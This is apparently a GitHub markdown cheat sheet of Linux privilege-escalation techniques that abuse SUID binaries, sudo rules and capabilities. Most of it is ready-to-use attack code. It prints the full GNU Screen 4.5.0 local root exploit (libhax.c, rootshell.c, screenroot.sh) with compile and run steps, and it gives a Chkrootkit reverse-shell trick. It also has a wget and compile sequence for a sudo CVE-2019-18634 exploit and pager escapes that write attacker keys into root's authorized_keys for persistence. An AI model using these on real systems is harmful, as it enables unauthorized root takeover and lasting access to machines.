 # Linux - CapSuidSudoExploit

All of this is for unique suid, sudo or capabilities. Any common one please check GTFOBins!. You can check the references below for more good site for this :)

- [Capabilities](#capabilities)
- [Suid](#suid)
- [Sudo](#sudo)
- [Exploit](#exploit)
- [References](#references)

# Capabilities

# SUID

### Screen4.50

All of these file do it on your machine first then transfer the file to your targets.

Save the file in libhax.c. Then compile like the command below:
```
# Command to Compile
gcc -fPIC -shared -ldl -o libhax.so libhax.c

# Script To Save (libhax.c)

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

Save the file in rootshell.c. Then compile like the command below:
```
# Command to Compile
gcc -o rootshell rootshell.c

# Script To Save (rootshell.c)

#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

Save the file in screenroot.sh like below:
```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

After that please transfer all of the files and chmod 777 all the transfer files on your target machine. Run like below and get rooted!
```
./screenroot.sh
./rootshell
```

Link => [ExploitDB-41154](https://www.exploit-db.com/exploits/41154)

### Hping3

```
- Just run the binary hping3
- Type any commands like id or you can go anywhere as a root.
```

# Sudo


# Exploit

### Chkrootkit (version 0.49)

Link => [Local root exploit in Chkrootkit](https://lepetithacker.wordpress.com/2017/04/30/local-root-exploit-in-chkrootkit/)

```
- '/tmp/update' is executed every time when Chkrootkit is executed so check the cron for find when chkrootkit is launched .
- So make a new file name update in /tmp.
- Put a reverse shell inside update and wait for chkrootkit to execute!
```

### Sudo Password Printed (****)

Link => [CVE-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634)

```
- Sudo versions 1.7.1 to 1.8.30 inclusive are affected but only if the pwfeedback option is enabled in sudoers. 
- You can test using this commands
    -> perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S /bin/bash
    -> if got segmentation fault means you can exploit this.
- wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
- gcc exploit.c -o exploit
- Then run the exploit!
```

### Sudo man

```
[1] Case 1: If there is no default pager (less)

- sudo /bin/man -P /usr/bin/less man
    * Then !/bin/sh
- sudo PAGER=/usr/bin/less /bin/man man
    * Then !/bin/sh

[2] Case 2: If there is no less pager

- Create /tmp/cat 
    * Contains 
        mkdir /root/.ssh
        echo '<YOUR AUTHORIZED_KEYS>' > /root/.ssh/authorized_keys
        chmod 600 authorized_keys
- sudo /bin/man -P /tmp/cat man
- Now you can ssh root@IP -i id_rsa
```


# References
[1] https://gtfobins.github.io/

[2] https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

[3] https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/